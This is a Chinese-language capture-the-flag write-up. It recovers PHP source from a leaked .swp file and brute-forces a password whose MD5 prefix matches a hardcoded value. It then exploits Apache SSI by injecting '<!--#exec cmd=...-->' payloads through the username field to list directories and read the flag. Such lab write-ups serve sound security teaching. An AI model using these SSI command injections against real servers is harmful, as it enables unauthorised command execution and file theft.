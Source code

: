 # 知识点:

# 1.文件扫描。swp源码泄露

# 2. Apache SSI 远程命令执行漏洞

https://www.cnblogs.com/yuzly/p/11226439.html



# 1.目录扫描得到/idnex.php.swp

# 访问得到源码：

```javascript
<?php
   ob_start();
   function get_hash(){
      $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
      $random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
      $content = uniqid().$random;
      return sha1($content);
   }
    header("Content-Type: text/html;charset=utf-8");
// ***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
         ***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
         echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";

    }else
    {
   ***
    }
   ***
?>
```



# 2. 发现不管username为任何值，只要password的MD5值的前6位为：6d0bc1即可登陆成功

脚本爆破符合的password:

```javascript
<?php

$i=0;
while (1){
    $i++;
    if(substr(md5($i),0,6)==='6d0bc1'){
        echo $i;
        break;
    }
}
```



# 3. 登陆之后发现响应头有信息

![](images/2150E9FC532C469D8DACA52F5579B5EFclipboard.png)



联想到Apache SSI 远程命令执行漏洞，apache开启SSI与CGI支持,我们就可以上传shtml,利用<!--#exec cmd=”id” -->语法执行命令。



# 4. 访问响应头文件得到

![](images/8A77908A17E24FF7938FE3261B075A23clipboard.png)



会将username回显,说明也许将username存入shtml文件



# 5. payload:

```javascript
username=<!--#exec cmd="ls"-->&password=2020666
```



```javascript
username=<!--#exec cmd="ls ../"-->&password=2020666
```



```javascript
username=<!--#exec cmd="cat ../flag_990c66bf85a09c664f0b6741840499b2"-->&password=2020666
```

